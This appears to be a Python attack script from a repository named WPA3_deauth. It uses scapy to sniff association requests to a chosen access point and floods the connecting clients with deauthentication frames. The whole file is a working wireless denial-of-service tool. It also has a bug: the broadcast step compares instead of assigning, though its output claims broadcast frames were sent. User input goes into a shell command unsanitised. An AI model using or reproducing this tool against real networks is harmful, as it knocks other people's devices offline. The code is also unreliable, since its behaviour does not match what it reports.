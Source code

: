 # WPA3_deauth

#!/usr/bin/env python

import sys,subprocess
from scapy.all import Dot11, Dot11Deauth, RadioTap, sendp, sniff, conf

chan=sys.argv[1]
bssid=sys.argv[2]

subprocess.run("sudo airmon-ng check kill > /dev/null", shell=True, executable="/bin/bash")
subprocess.run("sudo airmon-ng start wlan0 > /dev/null", shell=True, executable="/bin/bash")
change_channel="sudo iwconfig wlan0 channel "+chan
subprocess.run(change_channel, shell=True, executable="/bin/bash")

def Process_AssocReq(packet):
        if packet.haslayer(Dot11) and (packet.type == 0 and packet.subtype ==0 and packet.addr1.casefold() == bssid.casefold()):
                deauth_frame=RadioTap()/Dot11(type=0,subtype=10,addr1=packet.addr2,addr2=packet.addr1,addr3=packet.addr1)/Dot11Deauth(reason=3)

                s=conf.L2socket(iface='wlan0')
                for i in range(1,100):
                        s.send(deauth_frame)

                deauth_frame.addr1=='ff:ff:ff:ff:ff:ff'
                for i in range(1,100):  
                        s.send(deauth_frame)

                print('Association Request found and 100 broadcast and directed deauth frames injected toward client --> '+deauth_frame.addr1)


sniff(iface='wlan0',prn=Process_AssocReq)

